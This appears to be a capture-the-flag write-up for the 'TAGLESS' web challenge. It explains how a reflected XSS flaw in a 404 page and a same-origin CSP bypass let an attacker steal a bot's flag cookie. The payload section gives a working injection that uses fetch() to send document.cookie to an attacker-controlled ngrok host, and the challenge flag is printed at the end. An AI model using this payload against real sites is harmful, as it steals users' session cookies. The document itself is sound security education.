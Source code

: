 # TAGLESS (Web Exploitation)

### Challenge Description:

The aim of this challenge was to exfiltrate the flag from a cookie using a reflected XSS vulnerability while bypassing the CSP of the web application.

### Challenge Code Analysis:

<b>Bot Functionality (bot.py):</b>

- The bot uses Selenium WebDriver to interact with a web application.
- It sets a cookie named flag with the actual flag value and makes requests to specified URLs.

<b>Report Endpoint (app.py):</b>

- The `/report` endpoint accepts url form data and uses the bot to visit the URL.
- The URL must be from the localhost or 127.0.0.1 to be valid.

<b>404 Error Handling (app.py):</b>

- The application directly reflects the request path in the 404 error page without sanitization, making it vulnerable to XSS.

<b>CSP:</b>

- The application’s CSP restricts script sources to `self`, which typically prevents inline scripts but allows external scripts from the same origin.

### Vulnerabilities:

<b>Reflected XSS:</b>

- The 404 error handler reflects the request path directly. This lack of sanitization allows injection of arbitrary HTML or JS.
- Injecting a `<script>` tag directly did not work due to CSP restrictions on inline scripts.

<b>CSP Bypass:</b>

- The CSP's script-src directive only allows scripts from 'self', blocking inline scripts and external sources not listed.
- We identified that although inline scripts were blocked, the reflected XSS could still be exploited using an external script loaded from the same origin.

### Payload:

```
url: http://127.0.0.1:5000/<script src="/**/fetch(`https://{ngrok}/?cookie=${document.cookie}`)//"></script>
```

### Flag:

`SEKAI{w4rmUpwItHoUtTags}`